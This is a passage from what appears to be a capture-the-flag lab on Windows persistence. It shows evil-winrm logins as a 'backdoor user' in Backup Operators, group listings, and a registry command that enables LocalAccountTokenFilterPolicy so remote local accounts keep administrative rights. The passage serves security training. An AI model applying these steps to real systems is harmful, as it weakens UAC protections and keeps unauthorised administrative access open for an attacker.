 If you tried to connect right now from your attacker machine, you'd be surprised to see that even if you are on the Backups Operators group, you wouldn't be able to access all files as expected. A quick check on our assigned groups would indicate that we are a part of Backup Operators, but the group is disabled:

```shell-session
user@AttackBox$ evil-winrm -i MACHINE_IP -u thmuser1 -p Password321

*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators               Alias            S-1-5-32-551 Group used for deny only
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

This is due to User Account Control (UAC). One of the features implemented by UAC, **LocalAccountTokenFilterPolicy**, strips any local account of its administrative privileges when logging in remotely. While you can elevate your privileges through UAC from a graphical user session (Read more on UAC [here](https://tryhackme.com/room/windowsfundamentals1xbx)), if you are using WinRM, you are confined to a limited access token with no administrative privileges.

To be able to regain administration privileges from your user, we'll have to disable LocalAccountTokenFilterPolicy by changing the following registry key to 1:

```shell-session
C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Once all of this has been set up, we are ready to use our backdoor user. First, let's establish a WinRM connection and check that the Backup Operators group is enabled for our user:

```shell-session
user@AttackBox$ evil-winrm -i MACHINE_IP -u thmuser1 -p Password321
        
*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
```